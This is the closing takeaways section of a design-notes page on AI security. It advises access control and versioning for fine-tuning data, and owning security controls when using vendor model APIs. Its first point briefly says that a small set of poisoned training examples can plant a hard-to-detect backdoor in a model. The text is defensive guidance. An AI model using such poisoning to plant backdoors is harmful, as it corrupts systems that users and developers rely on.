- Fine-tuning data pipelines need the same access control, audit logging, and immutable versioning discipline as any other production data pipeline — a small, consistent subset of poisoned examples is enough to insert a reliable, hard-to-detect backdoor.
- Vendor API use doesn't eliminate the system builder's security responsibilities — it shifts them; read the vendor's actual documented shared-responsibility split per product surface rather than assuming it by analogy, and own every control on your side of that boundary regardless of how trustworthy the model behind the API is.

---

*Part of [AI Security](index.md) in the [AI System Design Notes](../index.md).*
